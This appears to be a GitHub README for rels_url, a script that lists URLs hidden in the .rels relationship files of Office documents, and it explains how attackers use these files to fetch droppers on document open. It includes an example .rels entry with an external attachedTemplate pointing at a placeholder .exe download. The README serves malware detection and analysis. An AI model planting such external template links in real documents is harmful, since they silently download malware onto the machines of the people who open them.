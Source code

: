 # rels_url
Office 2007+ Relational links URL extractor  

rels_url is a script that parses post 2007 or newer Micsocoft Office documents (e.g. docx, xlsx, pptx), to reveal URLs located in .rels files.  

**What is a RELS file?**  
Files that contain the .rels file extension are relationship files. These files contain information about how the parts of different Microsoft Office documents fit together. This information is also referred to as relationship parts.

RELS files serve as markers for the documents that they pertain to. They allow the various Microsoft Office applications to utilize the information in one file so that it can be used in another file.

The RELS file format is only compatible with the more recent versions of the Microsoft Office applications which support Open Office XML documents. The RELS files are saved in the directory of the Open Office XML document.

**How threat actors use the RELS files for malicious purposes**  
Threat actors can use the RELS file to access URLs and download a dropper file. This tactic is very sneaky since the .rels files are read when a document is opened and before the user can interact with the document. The user is not prompted to allow the URL to be accessed.  

**Example of a .rels file**  
\<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">\<Relationship  Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"  Target="https://sample.com/sample1/sample2/file.exe" TargetMode="External"/>\</Relationships>

**To Use:**  
rels_url.py  file.docx

*The output will list the folder and file the URL is located in:*  

**Sample Output**  
 C:\Users\cyb3rw01f>rels_url.py D:\rels_docx

_rels/.rels

word/_rels/document.xml.rels

word/_rels/settings.xml.rels  
"https://sample.com/sample1/sample2/file.exe"

customXml/_rels/item1.xml.rels

customXml/_rels/item2.xml.rels

customXml/_rels/item3.xml.rels

customXml/_rels/item4.xml.rels
